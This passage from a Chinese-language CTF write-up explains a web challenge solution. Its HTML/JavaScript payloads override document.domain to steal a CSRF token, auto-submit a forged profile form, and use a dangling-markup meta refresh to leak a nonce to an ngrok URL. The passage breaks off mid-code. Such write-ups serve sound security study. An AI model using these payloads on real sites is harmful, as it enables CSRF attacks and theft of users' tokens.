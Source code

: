 ``` js
```

所以這題特別檢查 context 應該是想把這個擋住，但幸好當時在研究 Intigriti 這個的時候，我發現 `document.domain` 其實可以自己用 `Object.defineProperty` 硬蓋過去，所以這樣就可以 CSRF：

``` html
<script>
  Object.defineProperty(document, 'domain', {
    value: '35.200.57.143'
  })
</script>
<input id="_csrf" />
<script src="https://35.200.57.143:11004/getSettings.js"></script>
<form id=f method=POST action="https://35.200.57.143:11004/profile" target="_blank">
  <input name="name" value="poc">
  <input name="csrf" value="">
</form>

<script>
  const csrf = _csrf.value
  f.csrf.value = csrf
  f.submit()
</script>
```

再來就是要偷 nonce 了，這題用的瀏覽器是 Firefox，對於 [Dangling Markup Injection](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection) 似乎沒做什麼防護，可以用 meta redirect 偷到下面的內容：`<meta http-equiv=refresh content='0; url=http://43d1-ip.ngrok.io/steal?q=`

最後一步就是要阻止 `csp.gif` 的載入，因為只要這個被載入的話，nonce 就會改變，我花了一個半小時找尋怎麼把它擋掉，原本想說應該可以靠之前提過的 concurrent limit 來防止，但怎麼弄都不成功。

最後發現原本 `base-uri` 是 `self`，所以 base 是可以用的，那就用 base 就好了，浪費了一小時 QQ

``` html
<script>
  Object.defineProperty(document, 'domain', {
    value: '35.200.57.143'
  })
</script>
<input id="_csrf" />
<script src="https://35.200.57.143:11004/getSettings.js"></script>
<form id=f method=POST action="https://35.200.57.143:11004/profile" target="test">
  <input name="name" value="poc">
  <input name="csrf" value="">
</form>

<script>
  var win = window.open('https://35.200.57.143:11004/profile', 'test')
  fetch('/clear')
  stealNoncePayload = "<base href='https://35.200.57.143:11004/abc/def/'><meta http-equiv=refresh content='0; url=http://43d1-ip.ngrok.io/steal?q="
  const csrf = _csrf.value
  f.csrf.value = csrf
  f.name.value = stealNoncePayload
  
  setTimeout(() => {
    f.submit()
  }, 500)
  

  function poll() {
    fetch('/nonce')
      .then(res => res.text())
      .then(nonce => {
          if (!nonce) {
```